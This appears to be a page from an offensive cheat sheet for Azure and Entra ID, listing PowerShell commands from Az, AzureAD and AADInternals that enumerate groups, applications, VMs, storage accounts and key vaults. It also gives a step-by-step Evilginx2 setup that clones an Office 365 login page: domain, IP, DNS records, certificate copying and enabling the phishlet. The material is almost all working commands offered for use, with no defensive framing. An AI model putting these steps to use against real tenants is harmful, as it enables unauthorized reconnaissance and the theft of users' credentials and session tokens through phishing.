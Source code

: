 ```powershell
# Get members of a group
PS Az> Get-AzADGroup -DisplayName '<GROUP-NAME>'
PS Az> Get-AzADGroupMember -GroupDisplayName '<GROUP-NAME>' | select UserPrincipalName

# Get Azure AD information
PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
PS AADInternals> Get-AADIntLoginInformation -UserName admin@<TENANT NAME>.onmicrosoft.com
PS AADInternals> Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com # Get Tenant ID
PS AADInternals> Invoke-AADIntReconAsOutsider -DomainName <DOMAIN> # Get all the information

# Check if there is a user logged-in to az cli
PS> az ad signed-in-user show

# Check AppID Alternative Names/Display Name 
PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl


# Get all application objects registered using the current tenant
PS AzureAD> Get-AzureADApplication -All $true

# Get all details about an application
PS AzureAD> Get-AzureADApplication -ObjectId <ID> | fl *

# List all VM's the user has access to
PS Az> Get-AzVM 
PS Az> Get-AzVM | fl

# Get all function apps
PS Az> Get-AzFunctionApp

# Get all webapps
PS Az> Get-AzWebApp
PS Az> Get-AzWebApp | select-object Name, Type, Hostnames

# List all storage accounts
PS Az> Get-AzStorageAccount
PS Az> Get-AzStorageAccount | fl

# List all keyvaults
PS Az> Get-AzKeyVault
```

⧉ Copied!

## Phishing with Evilginx2

```powershell
PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
: config domain username.corp
: config ip 10.10.10.10
: phishlets hostname o365 login.username.corp
: phishlets get-hosts o365

Create a DNS entry for login.login.username.corp and www.login.username.corp, type A, pointing to your machine

# copy certificate and enable the phishing
PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
: phishlets enable o365

```